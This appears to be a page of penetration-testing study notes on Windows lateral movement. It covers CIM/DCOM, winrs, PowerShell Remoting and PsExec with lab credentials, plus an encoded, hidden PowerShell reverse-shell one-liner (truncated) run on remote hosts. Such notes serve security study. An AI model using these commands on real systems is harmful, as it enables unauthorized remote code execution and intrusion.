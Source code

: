 ```PowerShell
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.141.73 -Credential $credential -SessionOption $Options
# Invoke CIM Method
$Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
#### WinRM with `winrs`
User must be part of the Administrators local group OR Windows Remote Management local group (on the target). Requires WinRM (TCP 5985/5986) open.
```PowerShell
# Simple RCE
winrs -r:files04 -u:jen -p:Password123!  "cmd /c hostname & whoami"
# Reverse shell RCE
winrs -r:files04 -u:jen -p:Password123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```
#### WinRM with PowerShell Remoting
- Requires WinRM (TCP 5985/5986) open.
```PowerShell
# Create PSCredential object
$username = 'jen';
$password = 'Password123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
# Invoke `New-PSSession` with PSCredential object
New-PSSession -ComputerName 192.168.141.73 -Credential $credential
# Enter PSSession
Enter-PSSession 1
```

### PSExec
Prerequisites:
1) User that authenticates to the target machine needs to be part of Administrators local group. 
2) ADMIN$ share must be available. 
3) File and Printer Sharing has to be turned on (not enabled by default but commonly used in AD environments)
```PowerShell
.\PsExec64.exe -i  \\FILES04 -u corp\jen -p Password123! cmd
```
> The `ADMIN$` share is a hidden administrative share on Windows systems that maps to the Windows installation folder—typically `C:\Windows`. This share is created by default for administrative purposes and allows remote access to the Windows directory for system management tasks.

### Pass the Hash
- Prerequisites: **Note that this will only work for servers or services using NTLM authentication, not for servers or services using Kerberos authentication.** 
